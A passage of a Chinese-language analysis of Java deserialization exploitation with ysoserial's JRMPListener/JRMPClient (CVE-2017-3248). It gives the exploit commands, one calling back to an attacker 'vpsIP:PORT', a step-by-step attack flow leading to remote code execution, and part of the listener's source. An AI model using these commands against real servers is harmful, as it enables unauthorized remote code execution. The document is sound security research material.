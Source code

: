```plain
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections1 'touch /tmp/cve-2017-3248'
java -jar ysoserial.jar JRMPClient 'vpsIP:PORT' > vulrServer
```

### 攻击流程

1.  攻击者使用 vps 启用 ysoserial.exploit.JRMPListener，设置需要需要执行的命令、端口和利用的模块，生成 payload1
2.  攻击者本地使用 payloads.JRMPClient 生成 payload2，设置 vps 的 ip 与端口，生成 payload2
3.  攻击者将 payload2 发送至存在漏洞的目标服务器，目标服务器进行反序列化
4.  目标服务器反序列化过程中会与 exploit.JRMPListener 进行通信（vps）
5.  vps 会将 payload1 发送至目标漏洞服务器
6.  漏洞服务器会根据 exploit/JRMPListener 设计的通信处理流程，进一步反序列化 payload1
7.  在对 payload1 反序列化的过程中，会触发 RCE

### exploit.JRMPListener

首先从其 main 函数开始分析，第一步是构造 payload

```plain
final Object payloadObject = Utils.makePayloadObject(args[ 1 ], args[ 2 ]);
```

进入该函数，关键两句代码是

```plain
final ObjectPayload payload = payloadClass.newInstance();
payloadObject = payload.getObject(payloadArg);
```

[![](assets/1701612165-bf3a0e8a1505b024750d606da9031632.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230810225217-80246d52-378d-1.png)  
第二部，启动监听  
构建了一个 JRMPListener 对象，查看其构造函数

```plain
public JRMPListener (int port, String className, URL classpathUrl) throws IOException {
    this.port = port;
    this.payloadObject = makeDummyObject(className);
    this.classpathUrl = classpathUrl;
    this.ss = ServerSocketFactory.getDefault().createServerSocket(this.port);
}
```
